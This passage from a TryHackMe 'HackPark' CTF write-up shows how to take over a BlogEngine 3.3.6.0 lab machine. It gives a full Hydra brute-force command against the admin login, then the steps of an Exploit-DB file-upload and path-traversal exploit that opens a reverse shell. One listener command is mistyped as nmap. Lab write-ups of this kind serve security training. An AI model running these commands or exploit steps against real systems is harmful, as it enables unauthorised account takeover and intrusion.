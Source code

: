 
  From there we are suppose to crack using Hydra on the login page.
  `hydra -l <username> -P /usr/share/wordlists/<wordlist> [machineIP] http-post-form`

  we can guess the username from the original post to be `Admin`
  then from that we can formulate the hydra command that is necessary by first getting the correct params.
  The hydra http-post-form takes 3 arguments separated by ':'. The first is the page on the server
to GET or POST to, the second is the POST/GET variables (taken from either
the browser, or a proxy such as BurpSuite) with the varying usernames and passwords
in the "^USER^" and "^PASS^" placeholders, the third is the string that it
checks for an *invalid* or *valid* login - any exception to this is counted
as a success.
 So for our hydra request we are using
 1: /Account/login.aspx
 2:  Request Params we find in burpsuite repeater ( via proxying a login request to the website via Burp Proxy, sending it to Burp Repeater via Ctrl+R, Then copying its request params given over to our command )
 3: "Login Failed" (Our "common case", what is expected if it doesnt see "Login Failed" it will return a success.)

  `hydra -v -l admin -P /usr/share/wordlists/rockyou.txt [machineIP] http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"`

  After running for a bit we get a result

  `[80][http-post-form] host: 10.10.128.86   login: admin   password: [REDACTED]`

  Logging in on the log-on page we gain access the Administrator account

  Going down to `http://10.10.128.86/admin/about.cshtml`  we see all this information
  ![blogengineinfo][4]

  We can identify the version of the BlogEngine as  3.3.6.0.

  When we search `exploit-db.com` with BlogEngine 3.3.6.0 we find several vulnerabilies we can use.
  We can see the exploit path [here](5).

  We see that first we have to edit the script to set to our local IP and the local port we will listen on. In another terminal go ahead and use `nmap -lvnp [lport]` to setup that listener.

   We also need to rename the edited file to `PostView.ascx` per the instructions.

  Then upload the edited file using the link in the image
  ![filemanagerbutton][6]

  After uploading we can then browse to `http://[machineIP]/?theme=../../App_Data/files`
  to execute the reverse shell, go back to the terminal with nc session and there should be a command prompt for you.

  We can quickly run `whoami` to get the results
  ```
  iis apppool\blog
  ```
  and confirm access on the machine.
## 3. Compromise the machine


[1]: https://tryhackme.com/room/hackpark
[2]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_web80.png
[3]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_aspxlogin80.png
[4]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_adminabout80.png
[5]: https://www.exploit-db.com/exploits/46353
[6]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_filebutton80.png
[7]: ./resources/hackpack_winexploit_suggestions.txt
[8]: https://www.exploit-db.com/exploits/45072